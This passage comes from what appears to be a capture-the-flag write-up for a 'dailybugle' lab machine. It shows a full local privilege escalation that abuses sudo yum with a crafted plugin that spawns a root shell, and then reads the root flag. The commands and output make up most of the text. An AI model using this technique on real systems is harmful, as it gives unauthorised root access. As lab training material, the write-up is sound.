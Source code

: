 Let's use sudo to escalate using [yum](https://gtfobins.github.io/gtfobins/yum/#sudo).
```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
TF=$(mktemp -d)

[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y

sh-4.2# whoami
whoami
root
```

root.txt:
```bash
sh-4.2# cat /root/root.txt
REDACTED
```